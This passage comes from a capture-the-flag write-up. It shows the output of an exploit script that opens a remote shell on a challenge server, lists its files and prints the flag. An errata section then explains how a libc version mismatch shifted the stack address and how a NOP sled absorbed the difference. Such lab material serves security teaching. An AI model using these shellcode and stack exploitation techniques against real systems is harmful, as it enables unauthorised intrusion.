 Output:

```bash
# ./exploit.py
[+] Opening connection to chal.cybersecurityrumble.de on port 1990: Done
[*] Switching to interactive mode
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ ls -l
total 52
lrwxrwxrwx   1 root root    7 Oct  8 01:31 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Apr 15  2020 boot
drwxr-xr-x   5 root root  340 Oct 30 18:36 dev
drwxr-xr-x   1 root root 4096 Oct 30 18:36 etc
-rw-r--r--   1 root root   45 Oct 30 16:07 flag.txt
drwxr-xr-x   1 root root 4096 Oct 30 18:36 home
lrwxrwxrwx   1 root root    7 Oct  8 01:31 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Oct  8 01:31 lib32 -> usr/lib32
lrwxrwxrwx   1 root root    9 Oct  8 01:31 lib64 -> usr/lib64
lrwxrwxrwx   1 root root   10 Oct  8 01:31 libx32 -> usr/libx32
drwxr-xr-x   2 root root 4096 Oct  8 01:31 media
drwxr-xr-x   2 root root 4096 Oct  8 01:31 mnt
drwxr-xr-x   2 root root 4096 Oct  8 01:31 opt
dr-xr-xr-x 310 root root    0 Oct 30 18:36 proc
drwx------   2 root root 4096 Oct  8 01:34 root
drwxr-xr-x   1 root root 4096 Oct 23 17:32 run
lrwxrwxrwx   1 root root    8 Oct  8 01:31 sbin -> usr/sbin
drwxr-xr-x   2 root root 4096 Oct  8 01:31 srv
dr-xr-xr-x  13 root root    0 Oct 30 23:13 sys
drwxrwxrwt   1 root root 4096 Oct 30 18:35 tmp
drwxr-xr-x   1 root root 4096 Oct  8 01:31 usr
drwxr-xr-x   1 root root 4096 Oct  8 01:34 var
$ cat flag.txt
CSR{back-in-1990-life-must-have-been-easier}
```


## Errata

The challenge Dockerfile `FROM` statement pulls `ubuntu:latest`, however if you already have something labeled as `ubuntu:latest` in your local repo, then that is used instead.  In my case that was based on 18.04 (`libc6_2.27-3ubuntu1_amd64.so` vs. `libc6_2.31-0ubuntu9_amd64.so` from the challenge server).  The net effect was a stack address that was off by `0x10`, but then that's what NOP sleds were designed to help with, so in the end, no problem.

My advice to CTF authors: be specific.


### Find the target address (redo)

First, `docker rmi ubuntu:latest`, just in case.

The stack frame should now be:
